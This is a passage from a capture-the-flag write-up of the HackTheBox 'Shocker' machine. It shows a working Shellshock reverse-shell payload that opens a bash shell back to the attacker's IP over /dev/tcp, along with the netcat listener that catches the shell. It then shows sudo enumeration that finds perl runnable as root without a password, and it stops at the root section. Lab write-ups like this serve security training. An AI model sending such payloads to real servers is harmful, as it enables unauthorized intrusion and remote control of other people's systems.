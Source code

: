 On my box I will run `tcpdump` to capture the sent packets.

![user.sh](/assets/img/shocker/tcpdump.png)

And the POC works. We can now go ahead and get our shell.

For this I will use the bash one liner from [`Pentestmonkey`](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```shell
() { :;}; /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.7/9001 0>&1'
```
Sending the payload hangs the webserver which is a good sign. Looking at my `nc` session.

And I have access on the box

```
┌─[george@parrot]─[~/HTB/boxes/shocker]
└──╼ $ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.56] 53608
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```

## Shell as root
### Enumeration

I always start off with checking our `sudo` privilages using the `sudo -l` command.

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
We can see user `shelly` can run `perl` as root without any `password` denoted by `NOPASSWD`.

### Root
